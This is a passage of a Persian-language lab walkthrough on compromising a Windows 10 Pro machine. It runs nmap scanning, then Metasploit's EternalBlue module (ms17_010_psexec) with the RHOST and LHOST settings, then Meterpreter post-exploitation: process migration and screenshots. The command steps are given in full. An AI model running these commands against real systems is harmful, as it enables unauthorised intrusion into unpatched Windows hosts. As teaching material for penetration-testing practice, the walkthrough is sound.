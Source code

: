 	3. در واقع هنگامیکه اسکن را بوسیله فلگ `A-` انجام میدهیم، دقیقا متوجه میشویم که تارگت ما چه سیستم عامل دارد و در واقع سیستم عامل تارگت را دقیقا بدست میاوریم.
		1. ![[Pasted image 20240710161541.png]]
	4. همچنین با استفاده از `sC-` هم، گزارشی از سرویس هایی که بر روی ماشین تارگت فعال هستند را میتوانیم مشاهده کنیم.
	5. در این سناریو تارگت ما `Windows 10 Pro` است.
1. *Start `msfconsole` and Launch Exploit*
	1. حال باید msfconsole کامپوننت اصلی Metasploit را با استفاده از `sudo msfconsole` باز کنیم تا بتوانیم با استفاده از Exploit بنام `Eternal Blue` به هک ویندوز 10 بپردازیم. برای پیدا کردن اکسپلویت مورد نظر کافیست در exploit ها عبارت `eternal` را سرچ کنیم. سپس میتوانیم آنرا `use` کنیم.
	1. `msf6> use exploit/windows/smb/ms17_010_psexec`
		1. ![[Pasted image 20240710162230.png]]
	2. حال باید Parameter های payload را تنظیم کنیم. برای تنظیم متغیر ها و پارامترهای payload از `set` استفاده میکنیم. دو عدد از پارامتر های مرسوم `LHOST(Local Host)` و `RHOST(Remote Host)` هستند. در *RHOST* باید *آیپی ماشین تارگت* را وارد کنیم و در *LHOST* هم *آیپی ماشین کالی* خودمان را باید وارد کنیم. 
	2. در واقع یکسری از پارامتر ها هستند که پر کردن آنها برای exploit واجب *Required* است، این پارامتر ها را باید حتما مقدار دهی کرد. مثلا LHOST و RHOST جز این دسته از پارامتر ها هستند.
		1. ![[Pasted image 20240710171407.png]]
	3. `msf6> set RHOST 192.168.1.2` RHOST(Remote Host)
	4. `msf6> set RHOST 192.168.1.4` LHOST(Local Host)
	5. حال میتوانیم Exploit خود را اجرا کنیم و در واقع بهره برداری را شروع کنیم، با این Exploit میخواهیم به ماشین تارگت دسترسی `Meterpereter` بگیریم. برای شروع بهره برداری کافیست >>
	6. `msf6> exploit` or `msf6> run`
		1. ![[Pasted image 20240710163117.png]]
	7. با شروع exploit میتوانیم به ماشین تارگت دسترسی Meterpreter را بگیریم.
2. Hacking Done.
##### Instruction Commands
```sh
nmap -A -sC 192.168.2.1
sudo msfconsole
"starting msfconsole." #Msfconsole Started
msf6> search eternal
msf6> use exploit/windows/smb/ms17_010_psexec #Use eternal blue
"Payload not configured, you should config that"
msf6> set RHOST 192.168.1.2 #set target ip on RHOST parameter 
msf6> set LHOST 192.168.1.4 #set local(own kali) ip on RHOST parameter 
msf6> exploit #Run exploit to accessing Meterpreter to target
"Run Exploit against target"
Meterpreter > ps
Meterpreter > migrate 454 #migrate to cmd.exe
Meterpreter > screenshoot
```
#### Practical Demo
0.  Windows Machine IP Address `ipconfig`
	1. ![[Pasted image 20240710165705.png]]
1. Start Scanning with `nmap -A -sC 192.168.1.2`
	1. ![[Pasted image 20240710165905.png]]
2. *Launch `msfconsole` and use exploit*
	1. `sudo msfconsole`
		1. ![[Pasted image 20240710170017.png]]
	2. `msf6> search eternal` Search for suitable exploit and then copy name of exploit `exploit/windows/smb/ms17_010_psexec`
		1. ![[Pasted image 20240710170138.png]]
3. *payload Configuration*
	0. After using exploit; by default we should configure Exploit Payload, so we need configure *REQUIRED* payload parameters.
	1. `msf6 exploit(windows/smb/ms17_010_psexe)> options` Show All Parameter for using Exploit
		1. ![[Pasted image 20240710171425.png]]
		2. ![[Pasted image 20240710171101.png]]
	2. `msf6 exploit(windows/smb/ms17_010_psexe)> set RHOST 192.168.1.2` Set Remote Host on Target IP 
	3. `msf6 exploit(windows/smb/ms17_010_psexe)> set LHOST 192.168.1.4` Set Local Host on Own Kali IP
		1. ![[Pasted image 20240710171453.png]]